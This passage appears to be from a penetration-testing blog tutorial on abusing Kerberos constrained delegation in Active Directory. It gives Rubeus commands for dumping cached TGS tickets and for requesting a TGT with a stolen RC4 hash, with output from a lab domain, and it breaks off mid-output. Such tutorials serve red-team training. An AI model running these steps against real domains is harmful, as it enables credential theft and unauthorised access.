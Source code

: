 

Now as I mentioned exploiting **Constrained Delegation** is of course not as simple as exploiting **Unconstrained Delegation** due to the obvious limitations however once an attacker has discovered the servers/users configured for **Delegation** he/she would aim to dump all the cached `TGS` Tickets and/or use the `S4U2Self` extension to request a `TGS` ticket for any respective user to access said SPN they are configured to delegate too. 



I am going to try formulate all examples I have saw from other articles on exploiting this, there can be quite a lot of different use cases. I am not copying... Well kinda but I think it's relevant that I have it all on this page.



**Example 1 - Basic TGS Ticket Snatch**



Now of course the first example that comes into mind is a basic one where I won't go step by step but I felt it was relevant to add this section. If we can gain access to a user/computer account configured for **Constrained Delegation** if we run the below command

```powershell
PS C:\Users\m0chan> .\Rubeus.exe dump
```



This will dump any relevant cached `TGS` ticket's stored on the box which we can then perform a `PTT` ticket attack similar to the `Pass-The-Ticket` section above.



Relatively simple :)

 

**Example 2 - Plaintext Password too Service Access**

Shoutout to @harmj0y & @gentilkiwi for this example. Really cool imo. 

Basically this attack works around the basis that you have compromised a plaintext password of a user account that is trusted for **Constrained Delegation** and/or a RC4 Hash/AES Key. Basically you can use the pass the users password/NTLM hash, request a `TGT` & execute a request for a `TGS` ticket and of course access the respective `SPN` / `Service`



**Request a TGT**

*https://github.com/GhostPack/Rubeus#asktgt*

```powershell
PS C:\Users\m0chan> .\Rubeus.exe asktgt /user:m0chan /domain:m0chanAD.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
 
  v1.0.4
 
[*] Action: Ask TGT
 
[*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
[*] Using domain controller: DC.m0chanAD.local (172.16.0.254)
[*] Building AS-REQ (w/ preauth) for: 'm0chanAD.local\m0chan'
[*] Connecting to 172.16.0.254:88
[*] Sent 230 bytes
[*] Received 1377 bytes
[*] base64(ticket.kirbi):

```